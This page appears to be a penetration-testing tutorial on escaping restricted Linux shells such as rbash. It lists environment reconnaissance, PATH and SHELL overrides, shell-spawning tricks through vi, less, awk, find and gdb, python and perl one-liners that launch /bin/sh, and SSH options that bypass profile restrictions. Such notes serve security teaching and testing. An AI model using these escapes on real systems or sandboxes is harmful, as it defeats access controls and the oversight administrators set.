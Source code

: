 # Escaping Restricted Shells



Some sysadmins don't want their users to have access to all commands. So they get a restriced shell. If the hacker get access to a user with a restriced shell we need to be able to break out of that, escape it, in order to have more power.

Many linux distros include rshell, which is a restriced shell.

To access the restried shell you can do this:

```text
sh -r 
rsh

rbash
bash -r
bash --restricted

rksh
ksh -r
```

[http://securebean.blogspot.cl/2014/05/escaping-restricted-shell\_3.html?view=sidebar](http://securebean.blogspot.cl/2014/05/escaping-restricted-shell_3.html?view=sidebar)  
[http://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells](http://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells)

### Breaking Out <a id="breaking-out"></a>

**Getting out of restricted shell**

**Reconnaissance¶**

Find out information about the environment.

* Run env to see exported environment variables
* Run ‘export -p’ to see the exported variables in the shell. This would tell which variables are read-only. Most likely the PATH \($PATH\) and SHELL \($SHELL\) variables are ‘-rx’, which means we can execute them, but not write to them. If they are writeable, we would be able to escape the restricted shell!
* If the SHELL variable is writeable, you can simply set it to your shell of choice \(i.e. sh, bash, ksh, etc…\).
* If the PATH is writeable, then you’ll be able to set it to any directory you want. I recommend setting it to one that has commands vulnerable to shell escapes.
* Try basic Unix commands and see what’s allowed ls, pwd, cd, env, set, export, vi, cp, mv etc.

**Quick Wins**

* If ‘/’ is allowed in commands just run /bin/sh
* If we can set PATH or SHELL variable

```text
export PATH=/bin:/usr/bin:/sbin:$PATH
export SHELL=/bin/sh
```

or if chsh command is present just change the shell to /bin/bash

```text
chsh
password: <password will be asked>
/bin/bash
```

If we can copy files into existing PATH, copy

```text
cp /bin/sh /current/directory; sh
```

**Taking help of binaries**

Some commands let us execute other system commands, often bypassing shell restrictions

* ftp -&gt; !/bin/sh
* gdb -&gt; !/bin/sh
* more/ less/ man -&gt; !/bin/sh
* vi -&gt; :!/bin/sh : Refer [Breaking out of Jail : Restricted Shell](http://airnesstheman.blogspot.in/2011/05/breaking-out-of-jail-restricted-shell.html) and [Restricted Accounts and Vim Tricks in Linux and Unix](http://linuxshellaccount.blogspot.in/2008/05/restricted-accounts-and-vim-tricks-in.html)
* scp -S /tmp/getMeOut.sh x y : Refer [Breaking out of rbash using scp](http://pentestmonkey.net/blog/rbash-scp)
* awk ‘BEGIN {system\(“/bin/sh”\)}’
* find / -name someName -exec /bin/sh ;
* tee

```text
echo "Your evil code" | tee script.sh
```

Invoke shell thru scripting language

Python

```text
python -c 'import os; os.system("/bin/bash")'
```

Perl

```text
perl -e 'exec "/bin/sh";'
```

**SSHing from outside**

* Use SSH on your machine to execute commands before the remote shell is loaded:

```text
ssh username@IP -t "/bin/sh"
```

* Start the remote shell without loading “rc” profile \( where most of the limitations are often configured\)

```text
ssh username@IP -t "bash --noprofile"
```

